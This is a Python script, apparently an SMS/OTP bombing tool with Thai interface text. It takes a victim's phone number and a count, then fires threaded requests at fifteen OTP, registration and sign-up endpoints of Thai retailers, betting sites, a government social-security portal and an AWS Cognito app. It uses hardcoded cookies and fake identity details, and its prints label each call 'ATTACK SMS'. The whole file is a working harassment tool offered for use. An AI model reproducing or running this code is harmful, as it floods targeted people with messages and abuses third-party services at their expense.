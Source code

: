 import requests
import time
import threading
from threading import Thread
print ("")
print ("พุฒเองน้อนๆ")
print ("")
phone = input("เบอร์ : ")
NUM = int(input("จำนวน : "))

print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺....")
print ("")

def api():
	requests.post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : LOTUSS")
	
def api2():
	requests.post("https://www.aurora.co.th/signin/otp_chk",data=f"mobile={phone}&type_otp=3")
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JASON")
	
def api3():
	requests.post("https://tamjaibet.com/api/request/otp", data={"phoneNumber": "0"+phone,"token":"HFdjc3ZU4WAnxLQQcCWB0TWV9zPCdpWmFpCUApNUtwAENbCGJkEAR9ckcdc20XMFR8HVQhEkREXwIOcDwnKRl1LDpXaQMJYB8ZSBQzZRdpem4YF3VHST0BYVQTU1NEcQATSSgpOnY3ZS9ZAFw3WSZXASwecS4LZD5wWhRicklxFQ1cFVAiczQOYxYSfUkaTD1sSSFTZU0mRDoZciRkEHV9dTE"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MOVDIER")
	
def api4():
	requests.post("https://store.boots.co.th/api/v1/guest/register/otp-challenge",json={"phone_number": "+66"+phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : BOOT")
	
def api5():
	requests.post("https://www.carsome.co.th/website/login/sendSMS",json={"username":"phone","optType":0})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON2")
	
def api6():
	requests.post("https://gamingnation.dtac.co.th/api/otp/generate",json={"template":"register","phone_no":"phone"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : OTP ")
	
def api7():
	requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : NODE")
	
def api8():
	requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON")
	
def api9():
	requests.post("https://api.scg-id.com/api/otp/send_otp", headers={"Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JAVA")
	
def api10():
	requests.post("https://ep789bet.net/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C")
	
def api11():
	requests.post("http://b226.com/x/code", data={f"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C+")
	
def api12():
	requests.post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : HTML")
	
def api13():
	requests.get("https://m.redbus.id/api/getOtp?number="+phone[1:]+"&cc=66&whatsAppOpted=true",headers={"traceparent": "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36"}).text
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PHP")
	
def api14():
	requests.post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MC∆T")
	
def api15():
	requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : END")
	
	

for i in range(NUM):
	threading.Thread(target=api).start()
	threading.Thread(target=api2).start()
	threading.Thread(target=api3).start()
	threading.Thread(target=api4).start()
	threading.Thread(target=api5).start()
	threading.Thread(target=api6).start()
	threading.Thread(target=api7).start()
	threading.Thread(target=api8).start()
	threading.Thread(target=api9).start()
	threading.Thread(target=api10).start()
	threading.Thread(target=api11).start()
	threading.Thread(target=api12).start()
	threading.Thread(target=api13).start()
	threading.Thread(target=api14).start()
	threading.Thread(target=api15).start()
